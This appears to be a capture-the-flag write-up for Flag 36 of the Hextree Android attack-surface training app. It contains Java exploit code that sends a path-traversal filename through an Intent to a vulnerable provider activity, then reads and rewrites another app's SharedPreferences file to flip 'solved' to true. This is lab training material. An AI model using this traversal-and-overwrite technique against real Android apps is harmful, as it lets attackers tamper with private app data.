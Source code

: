 ### Flag 36
#### Code analysis
```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "Not solved yet: \"solved=false\" in the `Flag36Preferences` shared preferences");
        }
```

if the shared preferences named `Flag36Preferences` and if it has value named `solved` set to `true` we get our flag  but what is this shared preference ?

>[!info] A `SharedPreferences` is an object points to a file containing key-value pairs and provides simple methods to read and write them. Each `SharedPreferences` file is managed by the framework and can be private or shared. It's saved in xml format

... now what ?
#### Solution
In flag35 we don't only have read permission but also the write , and since this provider uses root address we can go to where this shared preference is and open and edit file then we need to close the app and open it so that the changes take effect 

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* new rules buddy *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // Write the modified content back to the file  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```